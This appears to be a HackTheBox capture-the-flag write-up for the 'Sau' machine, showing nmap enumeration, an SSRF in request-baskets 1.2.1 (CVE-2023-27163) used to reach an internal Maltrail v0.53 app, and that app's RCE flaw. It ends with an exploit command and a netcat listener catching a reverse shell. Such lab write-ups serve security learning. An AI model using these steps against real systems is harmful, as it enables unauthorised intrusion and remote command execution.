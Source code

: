 # Sau

# User Flag

## NMAP Enumeration

All Port Scan:

```bash
PORT      STATE    SERVICE REASON
22/tcp    open     ssh     syn-ack ttl 63
80/tcp    filtered http    no-response
8338/tcp  filtered unknown no-response
12394/tcp filtered unknown no-response
13091/tcp filtered unknown no-response
19721/tcp filtered unknown no-response
25327/tcp filtered unknown no-response
53819/tcp filtered unknown no-response
55555/tcp open     unknown syn-ack ttl 63
64901/tcp filtered unknown no-response
```


All Open Port Scan:

```bash
sudo nmap -T5 --open -sS -vvv --min-rate=300 --max-retries=3 -p- -oN all-open-ports-nmap-report 10.10.11.224

PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 63
55555/tcp open  unknown syn-ack ttl 63
```



NMAP Service Scan:

```bash
nmap -sV -sC -Pn -v -oN nmap-report 10.10.11.224 -p 22

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
12394/tcp closed   unknown
13091/tcp closed   unknown
19721/tcp closed   unknown
25327/tcp closed   unknown
53819/tcp closed   unknown
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Wed, 07 Aug 2024 18:04:36 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Wed, 07 Aug 2024 18:04:09 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Wed, 07 Aug 2024 18:04:09 GMT
|_    Content-Length: 0
64901/tcp closed   unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94SVN%I=7%D=8/7%Time=66B3B717%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html
SF:;\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Wed,\x2007\x20Aug\x
SF:202024\x2018:04:09\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"
SF:/web\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20
SF:Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:
SF:\x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x2
SF:0200\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Wed,\x2007\x20Aug\x
SF:202024\x2018:04:09\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPReque
SF:st,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plai
SF:n;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reques
SF:t")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nC
SF:ontent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\
SF:n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x2040
SF:0\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\
SF:nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67
SF:,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x2
SF:0charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r
SF:(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20te
SF:xt/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x2
SF:0Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r
SF:\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Optio
SF:ns:\x20nosniff\r\nDate:\x20Wed,\x2007\x20Aug\x202024\x2018:04:36\x20GMT
SF:\r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20n
SF:ame\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\
SF:$\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Typ
SF:e:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x
SF:20Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Reque
SF:st\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20c
SF:lose\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration (Port 55555)

There is a web application hosted on port 55555. It allows a user to create a basket to collect and inspect HTTP requests. 

Notes:

* Website is powered by `request-baskets | Version: 1.2.1` and source code looks to be available on [github](https://github.com/darklynx/request-baskets).
* There is [CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163) available for this version of `request baskets` software.
* The CVE is for SSRF vulnerability, which can allow us to access internal services hosted on ports that are not accessible to external users (i.e. filtered ports 80 and 8338).
* The vulnerability works due to us being able to setup a Forward URL that forwards our request to the server. We can also enable proxy response, which will then return any response back to the client. The "Insecure TLS" set to true will bypass certificate verification and "Expand Path" set to true makes the forwared url path expanded when the original http request contains a compound path. Sending a request with the configuration below returns the application hosted on port 80 and 8338. 

![SSRF](https://github.com/timmccann222/Public-Writeups-Library/blob/main/HackTheBox/Linux%20Machines/Sau/Images/SSRF.png)

* Found application Maltrail (v0.53) hosted on port 80.

![Maltrail](https://github.com/timmccann222/Public-Writeups-Library/blob/main/HackTheBox/Linux%20Machines/Sau/Images/Maltrail%20Application.png)

* Application has RCE vulnerability which can be exploited using script from [here](https://github.com/spookier/Maltrail-v0.53-Exploit/tree/main).

```bash
# exploit script
python3 exploit.py 10.10.14.47 443 http://10.10.11.224:55555/n5wtoms

# netcat listening
nc -lvnp 443 
listening on [any] 443 ...
connect to [10.10.14.47] from (UNKNOWN) [10.10.11.224] 42082
$
```














